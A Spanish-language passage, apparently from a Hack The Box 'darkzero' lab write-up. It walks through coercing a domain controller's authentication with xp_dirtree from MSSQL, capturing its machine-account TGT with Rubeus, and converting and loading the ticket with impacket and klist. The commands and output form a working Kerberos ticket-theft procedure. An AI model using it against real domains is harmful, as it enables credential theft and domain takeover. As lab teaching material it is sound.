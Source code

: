 Tan solo tenemos que hacer una consulta desde el **servicio MSSQL** del **AD1** al **AD2**:
```bash
SQL (darkzero\john.w  guest@master)> xp_dirtree \\DC02.darkzero.ext\testing
```

Observa que **Rubeus.exe** capturó varios **TGT**, pero uno de estos es del **AD1**:
```bash
[*] Monitoring every 1 seconds for new TGTs

[*] 10/11/2025 7:22:03 PM UTC - Found new TGT:

  User                  :  DC01$@DARKZERO.HTB
  StartTime             :  10/11/2025 12:22:02 PM
  EndTime               :  10/11/2025 10:22:01 PM
  RenewTill             :  10/18/2025 12:22:01 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFjDCCBYigAwIBBaEDA...
```
Usaremos este **TGT** codificado en **base64**.

Lo guardamos y luego decodificamos el ticket, guardando el resultado en otro archivo:
```bash
nano ticket.bs4.kirbi

cat ticket.bs4.kirbi | base64 -d > ticket.kirbi
```
Nuestro **TGT** ahora está en el archivo **ticket.kirbi**.

Usaremos **impacket-ticketConverter** para convertir el archivo **ticket.kirbi** en formato **ccache** dentro de un archivo:
```bash
impacket-ticketConverter ticket.kirbi dc01_admin.ccache
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

Cargamos el **archivo ccache** como variable de entorno y revisamos con el comando **klist** que ya esté cargado:
```bash
export KRB5CCNAME=dc01_admin.ccache

klist
Ticket cache: FILE:dc01_admin.ccache
Default principal: DC01$@DARKZERO.HTB

Valid starting     Expires            Service principal
11/10/25 13:22:02  11/10/25 23:22:01  krbtgt/DARKZERO.HTB@DARKZERO.HTB
	renew until 18/10/25 13:22:01
```
Observa que el **TGT** está cargado para usarse en el **AD1**, siendo esta forma correcta.
